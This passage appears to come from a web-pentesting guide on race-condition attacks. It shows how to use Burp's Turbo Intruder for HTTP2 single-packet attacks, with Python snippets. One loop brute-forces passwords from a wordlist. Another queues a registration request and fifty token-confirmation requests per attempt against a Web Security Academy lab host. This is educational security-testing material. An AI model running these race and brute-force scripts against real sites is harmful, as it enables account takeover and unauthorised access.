 - **Tubo Intruder - HTTP2 single-packet attack (1 endpoint)**: You can send the request to **Turbo intruder** (`Extensions` -> `Turbo Intruder` -> `Send to Turbo Intruder`), you can change in the request the value you want to brute force for **`%s`** like in `csrf=Bn9VQB8OyefIs3ShR2fPESR0FzzulI1d&username=carlos&password=%s` and then select the **`examples/race-single-packer-attack.py`** from the drop down:

![](../images/image (57).png)

If you are going to **send different values**, you could modify the code with this one that uses a wordlist from the clipboard:

```python
    passwords = wordlists.clipboard
    for password in passwords:
        engine.queue(target.req, password, gate='race1')
```

> [!WARNING]
> If the web doesn't support HTTP2 (only HTTP1.1) use `Engine.THREADED` or `Engine.BURP` instead of `Engine.BURP2`.

- **Tubo Intruder - HTTP2 single-packet attack (Several endpoints)**: In case you need to send a request to 1 endpoint and then multiple to other endpoints to trigger the RCE, you can change the `race-single-packet-attack.py` script with something like:

```python
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # Hardcode the second request for the RC
    confirmationReq = '''POST /confirm?token[]= HTTP/2
Host: 0a9c00370490e77e837419c4005900d0.web-security-academy.net
Cookie: phpsessionid=MpDEOYRvaNT1OAm0OtAsmLZ91iDfISLU
Content-Length: 0

'''

    # For each attempt (20 in total) send 50 confirmation requests.
    for attempt in range(20):
        currentAttempt = str(attempt)
        username = 'aUser' + currentAttempt

        # queue a single registration request
        engine.queue(target.req, username, gate=currentAttempt)

        # queue 50 confirmation requests - note that this will probably sent in two separate packets
        for i in range(50):
            engine.queue(confirmationReq, gate=currentAttempt)

        # send all the queued requests for this attempt
        engine.openGate(currentAttempt)
```
